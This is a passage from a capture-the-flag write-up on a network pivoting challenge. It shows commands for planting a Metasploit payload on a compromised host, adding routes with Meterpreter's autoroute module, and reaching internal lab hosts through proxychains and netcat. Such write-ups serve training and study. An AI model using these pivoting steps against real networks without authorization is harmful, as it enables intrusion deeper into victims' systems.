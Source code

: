 

## # 5 Beacons annoying
The instruction for this was "Connect to ip: 10.112.3.88 port: 7000, a beacon awaits you". 

If we check ifconfig from the 2nd box:
```bash
$ ifconfig eth1
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.112.3.199  netmask 255.255.255.0  broadcast 10.112.3.255
        ether 02:42:0a:70:03:c7  txqueuelen 0  (Ethernet)
        RX packets 4382368  bytes 404233863 (404.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4081267  bytes 488559153 (488.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
the eth1 interface on the 2nd host belongs to same subnet as the given IP. I decided to drop my same msf binary in the 2nd box and ran autoroute to add all the subnets of the second host on metasploit's routing table. 

I copied the binary like before on the target host, started listening again on the msfconsole, and ran the binary from second box to receive another msf session. Next from the newly received meterpreter session I again ran the `autoroute` module to add the subnets:
```bash
meterpreter > run post/multi/manage/autoroute

[!] SESSION may not be compatible with this module.
[*] Running module against 10.218.176.199
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.112.3.0/255.255.255.0 from host's routing table.
meterpreter > 
```
Since now we have this new subnet added we don't need to create the proxy again, we can directly use proxychians now to probe the internal hosts on that subnet. I then connected to that host with netcat via proxychians and received below message:
```bash
root@ubuntu:~/defcon# proxychains nc 10.112.3.88 7000
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-10.112.3.88:7000-<><>-OK

I hope you like tunneling, I will send you the flag on a random port... How fast is your tunnel game?
I will send the flag to ip: 10.112.3.199 on port: 60916 in 15 secondsthe flag was sent, I hope you got it!
```
So we have to listen to a random port in 15 seconds from the 2nd box after connecting to that host on port 7000 to grab the flag.
This is fairly easy given that how we did the `4 Beacons everywhere` one. We have the script on that box already and we can just run the script again with the port number that will be mentioned after connecting to port 7000 on the given IP.
So I ran the previous command again and then from another terminal tab where I was already logged in on the second box, ran the script with mentioned port: 
```bash
$ python3 sniff.py 10.112.3.199 13885
```  
Received the flag in 15 seconds.
